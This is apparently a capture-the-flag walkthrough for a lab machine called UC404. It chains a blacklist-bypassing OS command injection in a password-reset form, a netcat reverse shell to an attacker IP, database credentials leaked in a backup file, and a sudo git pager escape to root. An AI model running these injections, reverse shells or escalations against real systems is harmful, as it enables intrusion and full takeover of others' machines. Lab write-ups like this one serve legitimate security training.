 # Exploitation Guide for UC404

## Summary

On this machine, we’ll leverage OS command injection in a web  application to gain an initial foothold. We’ll then leverage a password  disclosure and a sudo misconfiguration to escalate our privileges.

## Enumeration

### Nmap

We start the enumeration process with a simple `Nmap` scan.

```
kali@kali:~$ sudo nmap 192.168.120.157
Starting Nmap 7.91 ( https://nmap.org ) at 2020-10-22 13:13 EDT
Nmap scan report for 192.168.120.157
Host is up (0.035s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
2049/tcp open  nfs
3128/tcp open  squid-http
```

### Gobuster

Navigating to port 80 (http://192.168.120.157/), we find an application named `AdminLTE3`. We can use `gobuster` to bruteforce the site’s directories with the **/usr/share/dirbuster/wordlists/directory-list-2.3-small.txt** wordlist.

```
kali@kali:~$ gobuster dir -u http://192.168.120.157 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -z
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
...
/docs (Status: 301)
/pages (Status: 301)
/demo (Status: 301)
/plugins (Status: 301)
/db (Status: 301)
/dist (Status: 301)
/build (Status: 301)
/LICENSE (Status: 200)
/under_construction (Status: 301)
...
```

This scan reveals a hidden */under_construction* directory .

### Web Enumeration

Navigating to [the discovered directory](http://192.168.120.157/under_construction/), we find a login control and a `Forgot Password?` link. If we [navigate there](http://192.168.120.157/under_construction/forgot.php), we are presented with a form asking for an email address. The subtext reads:

```
By clicking "Reset Password" we will send a password reset link 
```

Viewing the source code of the page reveals the following comment:

```
<!--
  ______ __  __          _____ _         _______     _______ _______ ______ __  __ 
 |  ____|  \/  |   /\   |_   _| |       / ____\ \   / / ____|__   __|  ____|  \/  |
 | |__  | \  / |  /  \    | | | |      | (___  \ \_/ / (___    | |  | |__  | \  / |
 |  __| | |\/| | / /\ \   | | | |       \___ \  \   / \___ \   | |  |  __| | |\/| |
 | |____| |  | |/ ____ \ _| |_| |____   ____) |  | |  ____) |  | |  | |____| |  | |
 |______|_|  |_/_/    \_\_____|______| |_____/   |_| |_____/   |_|  |______|_|  |_|
 

---- Under Construction ----

sendmail.php must receive the variable from the html form and send the message.

|| For security reasons we are working to blacklist some characters ||

//-->

Could not open input file: sendmail.php
1
```

The behavior of the page reveals that the code is executing commands by passing an argument to the **sendmail.php** page, which does not exist.

## Exploitation

### Command Injection

We’ll set up our web browser to use the `Burp` proxy to intercept and analyze our traffic. Then, we’ll test the functionality of this form by inputting `test@email.com` into the email field and submitting the form.

The body of the captured request contains `email=test%40email.com`. This seems like a good candidate for command injection. Let’s include the variable `email` in a GET request and inject `;` followed by the command `id`:

```
http://192.168.120.157/under_construction/forgot.php?email=;id
```

According to the server response, this doesn’t seem to work. There’s a possibility we used dangerous characters which were blacklisted.  Researching OS command injection bypasses, we discover the `%0a` character. Let’s test this with the following request:

```
http://192.168.120.157/under_construction/forgot.php?email=%0aid
```

The server response indicates that we have obtained remote code execution on the target.

```
HTTP/1.1 200 OK
Date: Thu, 22 Oct 2020 17:56:02 GMT
Server: Apache/2.4.38 (Debian)
Vary: Accept-Encoding
Content-Length: 2783
Connection: close
Content-Type: text/html; charset=UTF-8
...
Could not open input file: sendmail.php
uid=33(www-data) gid=33(www-data) groups=33(www-data)
0
```

### Reverse Shell

A local command search lead us to the `netcat` command.

```
http://192.168.120.157/under_construction/forgot.php?email=%0Awhich+nc
...
/usr/bin/nc
...
```

We can easily obtain a reverse shell with `netcat`. Let’s set up a listener on port 4444 and issue the following request (be sure to swap your IP address):

```
http://192.168.120.157/under_construction/forgot.php?email=%0Anc%20192.168.118.3%204444%20-e%20%2Fbin%2Fbash
```

This gives us a remote shell.

```
kali@kali:~$ nc -lvp 4444
listening on [any] 4444 ...
192.168.120.157: inverse host lookup failed: Unknown host
connect to [192.168.118.3] from (UNKNOWN) [192.168.120.157] 47038
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@UC404:/var/www/html/under_construction$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@UC404:/var/www/html/under_construction$
```

## Escalation

### Local Enumeration

Exploring the file system, we discover an interesting file: **/var/backups/sendmail.php.bak**.

```
www-data@UC404:/var/www/html/under_construction$ cd /var/backups
cd /var/backups
www-data@UC404:/var/backups$ ls -la
ls -la
total 28
drwxr-xr-x  2 root     root      4096 Oct 23 07:38 .
drwxr-xr-x 12 root     root      4096 Oct 22 11:16 ..
-rw-r--r--  1 www-data www-data   787 Sep 18 10:21 sendmail.php.bak
www-data@UC404:/var/backups$
```

The contents include the following code, which includes hardcoded credentials:

```
www-data@UC404:/var/backups$ cat sendmail.php.bak
cat sendmail.php.bak
<?php 
if(isset($_POST['submit'])) 
{ 
$connect=mysql_connect("localhost","brian","BrianIsOnTheAir789") or die("Could not connect to database");
mysql_select_db("uc404") or die(mysql_error()); 
...
?>www-data@UC404:/var/backups$
```

### SSH

Let’s verify these credentials with an SSH connection.

```
kali@kali:~$ ssh -o StrictHostKeyChecking=no brian@192.168.120.157
...
brian@UC404:~$ id
uid=1001(brian) gid=1001(brian) groups=1001(brian)
brian@UC404:~$
```

### Abusing Git Functionality

We can begin our escalation process with a search for commands with elevated privileges.

```
brian@UC404:~$ sudo -l
Matching Defaults entries for brian on UC404:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User brian may run the following commands on UC404:
    (ALL) NOPASSWD: /usr/bin/git
brian@UC404:~$
```

It appears we can run **/usr/bin/git** without a password. We can abuse this to get root shell. We’ll start with the following command:

```
brian@UC404:~$ sudo git help config
```

This produces the following output:

```
GIT-CONFIG(1)                                         Git Manual                                         GIT-CONFIG(1)

NAME
       git-config - Get and set repository or global options

...
```

After running this, `Manual page git-config(1) line 1 (press h for help or q to quit)` will be highlighted. From here, we can escape this screen into a root shell with `!/bin/sh` followed by a return.

```
# id 
uid=0(root) gid=0(root) groups=0(root)
# 
```